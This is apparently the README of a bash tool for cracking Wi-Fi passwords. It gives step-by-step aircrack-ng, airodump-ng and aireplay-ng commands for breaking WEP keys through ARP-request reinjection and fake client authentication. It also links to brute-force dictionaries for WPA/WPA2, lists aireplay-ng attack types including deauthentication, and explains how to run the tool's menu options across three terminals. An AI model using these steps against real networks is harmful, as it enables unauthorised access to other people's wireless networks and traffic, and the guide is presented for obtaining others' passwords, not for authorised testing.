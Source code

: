 #**╔╗╔╗╔╗─╔═╗╔═══╗───────╔╗**
#**║║║║║║─║╔╝║╔═╗║───────║║**
#**║║║║║╠╦╝╚╦╣║─╚╬═╦══╦══╣║╔╦══╦═╗**
#**║╚╝╚╝╠╬╗╔╬╣║─╔╣╔╣╔╗║╔═╣╚╝╣║═╣╔╝**
#**╚╗╔╗╔╣║║║║║╚═╝║║║╔╗║╚═╣╔╗╣║═╣║**
#**─╚╝╚╝╚╝╚╝╚╩═══╩╝╚╝╚╩══╩╝╚╩══╩╝**

##Program made in bash that allows you to obtain Wifi's passwords.

###Program works with WPA/WPA2 protocol using PSK authentication, for this option Dictionaries are needed for brute forcing. Also you can use the program with WEP Wifi's protocol, for this option you don't need any dictionary

###Remember you need to install 'aircrack-ng' and 'macchanger':

| Program  | command |
| ------------- | ------------- |
| **aircrack-ng**  | sudo apt-get install aircrack-ng  |
| **macchanger**  | sudo apt-get install macchanger  |

###Mediafire links for dictionaries: [Dictionaries](https://mega.nz/#F!PB0ljZwC!H1CdY80f0mrTS4AdUm3BZw)

##**WEP Protocol**

###To capture a **WEP** Wifi password you have to do the following steps:
 
###Step 1: The first step you have to do is active the **monitor mode**, same as WPA/WPA2 protocol
 
```airmon-ng start wlp2s0 or airmon-ng start wlan0```
 
###Step 2: Execute airodump-ng to save the IV packages (packages where the password travels)
 
```airodump-ng -w datos wlp2s0 or airodump-ng -w datos wlan0```
 
###where '-w datos' indicates the file name where data will be saved
 
###Each access point works in a channel (CH). To improve the attack, you can use '-c (CH)' to filter only AP data. 

###For example:
 
```airodump-ng --ivs -w datos -c 11 wlp2s0 or airodump-ng --ivs -w datos -c 11 wlan0```
 
###Step 3: Now we just need to accelerate the capture IV's process through the injected traffic from the attacker's computer. To do this you will use the authenticated and associated client in the next step. Let capture an ARP-request packet, and then reinjected into the network to dramatically increase the number of IVs packets.
 
```aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlp2s0 or aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlan0```
 
###where '-3' indicates attack type and '-x 600' allow us to indicates the speed of the reinjected packages.
 
###Step 4: To inject packets you are going to authenticate and associate with a fictitious network client.
 
```aireplay-ng -1 10 -e NOMBREWIFI -a MAC_AP -h MAC_FALSO_CLIENTE wlp2s0```
 
###where '-1 10' indicates you are goint to send 10 authentication packages, '-a MAC_AP' indicates the MAC point acces adress and '-h MAC_FALSO_CLIENTE' indicates a fake MAC adress.
 
###Last Step: Now you can execute on another console **aircrack-ng** to analyze the IV's packages obtained by **airodump-ng** and stored in **datos-01.ivs** file.
 
```aircrack-ng -0 datos-01.ivs```
 
###The process can take about 10 minutes to WEP 64-bit passwords and 20 minutes for 128-bit WEP passwords. If you want to speed up the process you can indicate the length of the WEP password as follows: 
 
```aircrack-ng -0 -n 64 datos-01.ivs```
 
###where '-n 64' indicates for example the length of WEP password.
 
###When aircrack-ng ends, he show us the WEP password on screen.

###Here you have a table for 'aireplay-ng' options

| Attack  | Function |
| ------------- | ------------- |
| **0**  | De-authentication  |
| **1**  | Fake authentication  |
| **2**  | Interactive selection of packages to send  |
| **3**  | ARP-request reinjection  |
| **4**  | Chopchop attack |
| **5**  | Fragmentation attack |
| **6**  | Caffe-late attack |
| **7**  | Fragmentation Attack (customer oriented) |
| **8**  | WPA Migration Mode |
| **9**  | Injection test |

###---------------------------------------------------------------------------------------------------------------------------

### All the process has to be done from 3 terminals. First you have to choose option 1, and then monitor interface is enabled. After that, you choose option 4 and after targetting a Wifi, you have to open a new terminal. Then execute the program again and (with Terminal 1 running) choose option 5 in Terminal 2. You have to wait 1 minute in option 5, and then press Ctrl+C. After that, open a new terminal and choose option 7 from Terminal 3 for finishing. If option 7 doesn't work, try again... that's because you need the user reconnects to the network.

###That's the error you could have

![Little Mistake](error.png)

###Otherwise, routter password appears

![Working Good](funciona.png)

###For option 6, you make a fake auth client. Sometimes, there are no clients connected to the network, so you have to create one tricking the routter. You can use your own mac to make fake authentications.

###Here you can see there are some clients connected, but particulary... i want to authenticate the client whose MAC adress is C8:38:70:59:31:4B:

![Unassociated](Unassociated.png)

###So doing option 6 look what happens with C8:38:70:59:31:4B, now it's connected to the network and you can start doing option 5 with this client:

![Unassociated](Associated.png)


